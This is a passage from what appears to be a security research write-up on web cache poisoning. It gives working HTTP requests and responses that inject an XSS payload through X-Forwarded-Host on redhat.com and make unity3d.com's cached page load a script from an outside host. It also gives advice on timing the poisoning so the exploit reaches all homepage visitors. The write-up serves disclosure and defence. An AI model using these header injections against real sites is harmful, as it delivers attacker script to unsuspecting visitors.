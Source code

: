 Here we can see that the X-Forwarded-Host header has been used by the  application to generate an Open Graph URL inside a meta tag. The next  step is to explore whether it's exploitable – we'll start with a simple [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) payload:

`````http
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: a."><script>alert(1)</script>

HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<meta property="og:image" content="https://a."><script>alert(1)</script>"/> 
`````

Looks good – we've just confirmed that we can cause a response that will execute arbitrary JavaScript against whoever views it. The final step  is to check if this response has been stored in a cache so that it'll be delivered to other users. Don't let the 'Cache Control: no-cache'  header dissuade you – it's always better to attempt an attack than  assume it won't work. You can verify first by resending the request  without the malicious header, and then by fetching the URL directly in a browser on a different machine: 

`````http
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com

HTTP/1.1 200 OK
…
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
`````

That was easy. Although the response doesn't have any headers that  suggest a cache is present, our exploit has clearly been cached. A quick DNS lookup offers an explanation – www.redhat.com is a CNAME to  www.redhat.com.edgekey.net, indicating that it's using Akamai's CDN. 

### Discreet poisoning

 At this point  we've proven the attack is possible by poisoning  https://www.redhat.com/en?dontpoisoneveryone=1 to avoid affecting the  site's actual visitors. In order to actually poison the blog's homepage  and deliver our exploit to all subsequent visitors, we'd need to ensure  we sent the first request to the homepage after the cached response  expired. 

 This could be attempted using a tool like Burp Intruder or a custom script to send a large number of requests, but such a  traffic-heavy approach is hardly subtle. An attacker could potentially  avoid this problem by reverse engineering the target's cache expiry  system and predicting exact expiry times by perusing documentation and  monitoring the site over time, but that sounds distinctly like hard  work. 

Luckily, many websites make our life easier. Take this cache poisoning vulnerability in unity3d.com:

``````http
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
``````
